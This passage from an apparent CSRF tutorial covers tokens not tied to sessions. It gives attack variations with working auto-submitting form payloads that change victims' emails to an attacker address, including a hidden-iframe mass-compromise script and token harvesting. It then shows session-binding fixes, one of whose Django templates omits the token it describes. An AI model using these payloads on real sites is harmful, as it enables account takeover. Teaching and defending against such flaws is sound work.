    └── Sends: SESSION_B + TOKEN_B
        └── Server checks: TOKEN_B belongs to SESSION_B? YES ✓
            └── Accepted ✓

Attack flow (vulnerable system):
├── Attacker logs in as User A
│   └── Session: SESSION_A
│       └── Gets token: TOKEN_A
│           └── Token is valid ✓
│
├── Attacker extracts TOKEN_A
│   └── Saves it for later use
│
├── Victim (User B) is logged in
│   └── Session: SESSION_B
│       └── Has token: TOKEN_B (but attacker doesn't need it!)
│
├── Attacker crafts CSRF with TOKEN_A
│   └── Form includes: TOKEN_A (attacker's token)
│
├── Victim's browser submits form
│   └── Sends: SESSION_B + TOKEN_A
│       └── Server checks:
│           ├── Is TOKEN_A valid? YES ✓ (exists in database)
│           └── ⚠️ Doesn't check: Does TOKEN_A belong to SESSION_B?
│               └── ACCEPTED! 💥
│
└── Attack succeeds! 🎯

Secure system would:
└── Check: Is TOKEN_A valid? YES ✓
    └── Check: Does TOKEN_A belong to SESSION_B? NO ❌
        └── REJECTED! ✓
            └── Attack blocked! 🛡️
```

---

## 🚀 **Attack Variations**

### **Variation 1: Using Your Own Account**

```r
Simplest attack flow:

1. Create attacker account
   └── Login and get valid token

2. Create CSRF exploit
   └── Include your token
   └── Target any user

3. Deliver to victim
   └── Your token works for victim!

Benefits:
├── No need to steal victim's token
├── No need to guess tokens
├── Your own token guaranteed valid
└── Simplest possible attack! ✓
```

---

### **Variation 2: Token Harvesting**

```r
<!-- Collect multiple tokens for reliability -->
<script>
// Attacker logs in multiple times
// Collects multiple valid tokens
const tokens = [
    'TOKEN_1',
    'TOKEN_2',
    'TOKEN_3'
];

// Use different token each time
const randomToken = tokens[Math.floor(Math.random() * tokens.length)];

// Create form with random valid token
const form = document.createElement('form');
form.method = 'POST';
form.action = 'https://vulnerable.com/change-email';

const emailInput = document.createElement('input');
emailInput.type = 'hidden';
emailInput.name = 'email';
emailInput.value = 'attacker@evil.com';

const csrfInput = document.createElement('input');
csrfInput.type = 'hidden';
csrfInput.name = 'csrf';
csrfInput.value = randomToken;

form.appendChild(emailInput);
form.appendChild(csrfInput);
document.body.appendChild(form);
form.submit();
</script>

Why multiple tokens:
├── Redundancy if one is invalidated
├── Can rotate through tokens
└── Higher success rate
```

---

### **Variation 3: Long-Lived Token Exploitation**

```r
If tokens don't expire:

1. Generate token once
   └── Store for long-term use

2. Create exploit
   └── Use same token repeatedly

3. Token works indefinitely
   └── Until server resets

Attack timeline:
├── Day 1: Login, get token
├── Day 30: Use same token in attack
├── Day 60: Still works!
└── Token never expires! 💣

This is worse if tokens also:
├── Not session-bound ❌
└── Don't expire ❌
    └── Permanent attack vector! 💥
```

---

### **Variation 4: Automated Token Extraction**

```r
// Automated token harvesting
async function getValidToken() {
    // Login to get token
    const loginResp = await fetch('/login', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: 'username=attacker&password=password123'
    });
    
    // Fetch page with CSRF token
    const pageResp = await fetch('/my-account');
    const html = await pageResp.text();
    
    // Extract token from HTML
    const match = html.match(/name="csrf" value="([^"]+)"/);
    const token = match ? match[1] : null;
    
    return token;
}

// Use in attack
const validToken = await getValidToken();
document.querySelector('input[name="csrf"]').value = validToken;
document.forms[0].submit();
```

---

### **Variation 5: Mass Account Compromise**

```r
Attack multiple users with one token:

1. Get valid token from your account

2. Create list of victim emails
   victims = ['user1@site.com', 'user2@site.com', ...]

3. For each victim, send CSRF
   └── All use same token!
   └── All succeed! 💥

Exploit code:
<script>
const victims = ['victim1@site.com', 'victim2@site.com'];
const validToken = 'YOUR_TOKEN_HERE';

victims.forEach(victim => {
    const iframe = document.createElement('iframe');
    iframe.style.display = 'none';
    iframe.srcdoc = `
        <form method="POST" action="https://vulnerable.com/change-email">
            <input name="email" value="attacker@evil.com">
            <input name="csrf" value="${validToken}">
        </form>
        <script>document.forms[0].submit();<\/script>
    `;
    document.body.appendChild(iframe);
});
</script>

Result:
└── Multiple accounts compromised
    └── All with single token! 💣
```

---

### **Variation 6: Cross-User Token Swap**

```r
Test token interchangeability:

Setup:
├── Account A: alice
├── Account B: bob
└── Account C: charlie

Test matrix:
┌─────────┬─────────┬─────────┬─────────┐
│ Session │ Token A │ Token B │ Token C │
├─────────┼─────────┼─────────┼─────────┤
│ Alice   │ ✓       │ ?       │ ?       │
│ Bob     │ ?       │ ✓       │ ?       │
│ Charlie │ ?       │ ?       │ ✓       │
└─────────┴─────────┴─────────┴─────────┘

If all ? = ✓ → Fully vulnerable! 💣

Test systematically:
└── Alice's session + Bob's token
    └── Works? → Vulnerable
        └── Try all combinations
```

---

### **Variation 7: Token Prediction Attempt**

```r
If tokens follow pattern:

Example tokens:
├── user_1_csrf_token_20250211_001
├── user_2_csrf_token_20250211_002
└── user_3_csrf_token_20250211_003

Attack:
└── Predict next token
    └── user_4_csrf_token_20250211_004
        └── Try it in CSRF attack

Combined with session independence:
├── Predicted token might be valid
└── If valid, works for any user! 💣

Note: Rare, but check for patterns:
├── Sequential numbers
├── Timestamps
├── Username-based
└── Predictable algorithms
```

---

### **Variation 8: Token Replay from History**

```r
If tokens are reusable:

1. Capture your own token from network history
   └── Browser DevTools → Network tab
   └── Find email change request
   └── Copy csrf value

2. Use captured token in CSRF
   └── Even from old request
   └── Still valid!

3. Token works indefinitely
   └── No single-use enforcement
   └── No expiration

Combined vulnerability:
├── Not session-bound ❌
├── Not single-use ❌
└── Replayable forever! 💣
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Bind Tokens to Sessions**

```r
// ✅ SECURE - Session-bound tokens

const sessions = {};

function generateCSRFToken(sessionId, userId) {
    const token = crypto.randomBytes(32).toString('hex');
    
    // Store token WITH session binding
    sessions[sessionId] = {
        userId: userId,
        csrfToken: token,
        createdAt: Date.now()
    };
    
    return token;
}

function validateCSRFToken(token, sessionId) {
    const session = sessions[sessionId];
    
    // Check session exists
    if (!session) {
        return false;
    }
    
    // Check token belongs to THIS session
    if (session.csrfToken !== token) {
        return false;  // Token doesn't match session!
    }
    
    return true;
}

app.post('/change-email', (req, res) => {
    const token = req.body.csrf;
    const sessionId = req.sessionID;
    
    // Validate token belongs to session
    if (!validateCSRFToken(token, sessionId)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Token tied to specific session
✅ Can't use token from different session
✅ Attacker's token won't work for victim
✅ Proper CSRF protection!
```

---

### **Fix 2: Database Schema with Session Binding**

```r
-- ✅ SECURE - Database with session binding

CREATE TABLE csrf_tokens (
    id SERIAL PRIMARY KEY,
    token VARCHAR(64) UNIQUE NOT NULL,
    session_id VARCHAR(128) NOT NULL,
    user_id INTEGER NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    expires_at TIMESTAMP,
    used BOOLEAN DEFAULT FALSE
);

-- Index for fast lookups
CREATE INDEX idx_token_session ON csrf_tokens(token, session_id);
CREATE INDEX idx_session ON csrf_tokens(session_id);

-- Validation query
SELECT * FROM csrf_tokens 
WHERE token = ? 
  AND session_id = ?
  AND used = FALSE
  AND expires_at > NOW();

Benefits:
✅ Token bound to session_id
✅ Token bound to user_id
✅ Expiration timestamp
✅ Single-use flag
✅ Multiple layers of protection
```

---

### **Fix 3: Framework Implementation (Django)**

```r
# ✅ SECURE - Django CSRF protection

from django.middleware.csrf import get_token
from django.views.decorators.csrf import csrf_protect

@csrf_protect
def change_email(request):
    if request.method == 'POST':
        # Django automatically:
        # 1. Checks token present
        # 2. Validates token value
        # 3. Verifies token belongs to THIS session
        # 4. Checks token not expired
        
        email = request.POST.get('email')
        request.user.email = email
        request.user.save()
        return redirect('account')
    
    # Generate token for form
    csrf_token = get_token(request)
    return render(request, 'account.html', {
        'csrf_token': csrf_token
    })

# Template:
<form method="POST">
      <!-- Generates session-bound token -->
    <input type="email" name="email">
    <button type="submit">Update</button>
</form>

How Django ensures session binding:
├── Token generated per session
├── Stored in session data
├── Validated against session
└── Automatic session binding! ✓
```

---

### **Fix 4: Express.js with csurf Middleware**

```r
// ✅ SECURE - Express with csurf

const csrf = require('csurf');
const csrfProtection = csrf({ cookie: true });

app.use(require('cookie-parser')());
app.use(require('express-session')({
    secret: 'your-secret-key',
    resave: false,
    saveUninitialized: false
}));

// Apply CSRF protection
app.get('/my-account', csrfProtection, (req, res) => {
    // Token automatically bound to session
    res.render('account', { 
        csrfToken: req.csrfToken() 
    });
});

app.post('/change-email', csrfProtection, (req, res) => {
    // Middleware automatically:
    // 1. Extracts token from request
    // 2. Validates token exists
    // 3. Checks token belongs to THIS session
    // 4. Rejects if validation fails
    
    // Only reaches here if CSRF valid
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Automatic session binding
✅ Token validation per request
✅ Framework handles complexity
✅ Prevents session-independent tokens
```

---

### **Fix 5: Custom Token Generation with Binding**

```r
// ✅ SECURE - PHP custom implementation

session_start();

function generateCSRFToken() {
    $token = bin2hex(random_bytes(32));
    
    // Store in SESSION (session-bound!)
    $_SESSION['csrf_token'] = $token;
    $_SESSION['csrf_token_time'] = time();
    
    return $token;
}

function validateCSRFToken($token) {
    // Check token in request
    if (empty($token)) {
        return false;
    }
    
    // Check token in session
    if (empty($_SESSION['csrf_token'])) {
        return false;
    }
    
    // Compare with SESSION token (session-bound!)
    if (!hash_equals($_SESSION['csrf_token'], $token)) {
        return false;  // Token doesn't match session!
    }
    
    // Check expiration (optional)
    $tokenAge = time() - $_SESSION['csrf_token_time'];
    if ($tokenAge > 3600) {  // 1 hour
        return false;  // Token expired
    }
    
    return true;
}

// Usage:
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!validateCSRFToken($_POST['csrf'])) {
        die('CSRF validation failed');
    }
    
    updateEmail($_POST['email']);
}

Benefits:
✅ Token stored in session
✅ Validation checks session value
✅ Can't use token from different session
✅ Optional expiration
```

---

### **Fix 6: Double Submit Cookie with Session Binding**

```r
// ✅ SECURE - Double submit with proper binding

app.use((req, res, next) => {
    if (!req.session.csrfSecret) {
        // Generate session-specific secret
        req.session.csrfSecret = crypto.randomBytes(32).toString('hex');
    }
    
    // Generate token from session secret
    const token = crypto
        .createHash('sha256')
        .update(req.session.csrfSecret + req.sessionID)
        .digest('hex');
    
    // Set in cookie for client access
    res.cookie('csrfToken', token, {
        httpOnly: false,
        secure: true,
        sameSite: 'Strict'
    });
    
    req.csrfToken = token;
    next();
});

function validateCSRF(req) {
    const cookieToken = req.cookies.csrfToken;
    const bodyToken = req.body.csrf;
    
    // Both must exist
    if (!cookieToken || !bodyToken) {
        return false;
    }
    
    // Must match each other
    if (cookieToken !== bodyToken) {
        return false;
    }
    
    // Regenerate expected token from session
    const expectedToken = crypto
        .createHash('sha256')
        .update(req.session.csrfSecret + req.sessionID)
        .digest('hex');
    
    // Must match session-derived token
    if (bodyToken !== expectedToken) {
        return false;  // Token doesn't match session!
    }
    
    return true;
}

Benefits:
✅ Token derived from session
✅ Includes session ID in generation
✅ Can't reuse token from different session
✅ Double submit pattern with session binding
```

---

### **Fix 7: Token Rotation Per Request**

```r
// ✅ SECURE - Rotate token per request

function generateNewToken(sessionId) {
    const token = crypto.randomBytes(32).toString('hex');
    
    // Store in session with timestamp
    sessions[sessionId].csrfTokens = sessions[sessionId].csrfTokens || [];
    sessions[sessionId].csrfTokens.push({
        token: token,
        createdAt: Date.now(),
        used: false
    });
    
    // Keep only last 5 tokens (for browser back button)
    if (sessions[sessionId].csrfTokens.length > 5) {
        sessions[sessionId].csrfTokens.shift();
    }
    
    return token;
}

function validateAndInvalidate(token, sessionId) {
    const session = sessions[sessionId];
    if (!session) return false;
    
    const tokenIndex = session.csrfTokens.findIndex(t => 
        t.token === token && !t.used
    );
    
    if (tokenIndex === -1) {
        return false;  // Token not found or already used
    }
    
    // Mark as used (single-use)
    session.csrfTokens[tokenIndex].used = true;
    
    // Generate new token for next request
    const newToken = generateNewToken(sessionId);
    
    return { valid: true, newToken: newToken };
}

Benefits:
✅ Session-bound
✅ Single-use tokens
✅ Token rotation
✅ Prevents replay attacks
```

---
